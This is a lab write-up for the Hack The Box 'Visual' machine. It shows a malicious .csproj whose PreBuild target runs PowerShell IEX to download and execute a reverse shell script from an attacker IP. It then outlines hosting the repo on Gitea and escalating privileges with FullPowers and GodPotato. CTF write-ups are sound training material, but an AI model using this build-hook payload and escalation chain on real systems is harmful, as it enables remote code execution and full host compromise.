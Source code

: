 The application's backend is executing a /info/refs?service=git-upload-pack request.
This means that the application is cloning a remote Git repository.

We can exploit the way the application clones and builds the project using Visual Studio. https://www.hackingarticles.in/windows-exploitation-msbuild/
*MSBuild's PreBuildEvent can be manipulated to execute custom commands before the actual build process starts. This is done by defining a custom target (PreBuild) that runs before the PreBuildEvent.*

## Malicious .csproj

``` 
<Project Sdk="Microsoft.NET.Sdk">

  <PropertyGroup>
    <OutputType>Exe</OutputType>
    <TargetFramework>net7.0</TargetFramework>
    <RootNamespace>project_name</RootNamespace>
    <ImplicitUsings>enable</ImplicitUsings>
    <Nullable>enable</Nullable>
  </PropertyGroup>

  <Target Name="PreBuild" BeforeTargets="PreBuildEvent">
    <Exec Command="powershell IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.14:8000/revshell.ps1')" />
  </Target>

</Project>

```

## Simple C# project https://github.com/kvlx-alt/HackTheBox-Visual

## Rev shell https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1

## Host the c# project on a local gitea docker https://github.com/jersonmartinez/gitea-docker-compose
```
docker-compose up -d
```

## Submit the repo URL to the application and await the reverse shell connection
	curl http://visual.htb/uploads/Invoke-PowerShellTcp.ps1

## Escalate privilege
Recover the default privilege set of a LOCAL/NETWORK SERVICE account using FULLPowers
*_**FullPowers**_ is a Proof-of-Concept tool I made for automatically recovering the **default privilege set** of a service account including **SeAssignPrimaryToken** and **SeImpersonate**.*
https://github.com/itm4n/FullPowers

## Now that we have the SeImpersonate privilege we can use # [GodPotato](https://github.com/BeichenDream/GodPotato#godpotato) to abuse it



